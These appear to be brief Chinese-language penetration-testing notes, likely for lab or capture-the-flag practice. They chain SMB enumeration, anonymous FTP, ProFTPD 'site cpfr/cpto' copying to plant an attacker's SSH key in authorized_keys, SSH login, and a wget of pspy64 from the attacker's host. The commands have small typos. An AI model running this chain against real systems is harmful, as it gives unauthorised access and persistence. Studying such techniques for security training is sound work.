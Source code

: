 ```
smbmap -H IP 看文件夹 看权限
smbclient '\\ip\文件夹' -U guest 或者 -N
smbclient '\\ip\文件夹' 默认以root登录 输入密码
help 查找命令
put /root/id_rsa.pub authorized_key
上传攻击机文件 到该目录下 可以重命名
get 文件名
```



ftp 

```
ftp ip
anonymous anonymous
get http://ip:port/name 下载本地
put
ls
dir
cd
put 
```



proftpd

```
site cpfr path
site cpto path

启动proftpd
nc ip 2121端口
site cpfr /smbdata/samba/authorized_keys
site cpto /home/smbuser/.ssh/authorized_keys
```



ssh

```
/root/.ssh
ssh-keygen 回撤 回撤 root 密码为空 备注为空

ssh smbuser@ip 


```



http

```
python3 -m http.sever 8888
wget http://ip/pspy64
```
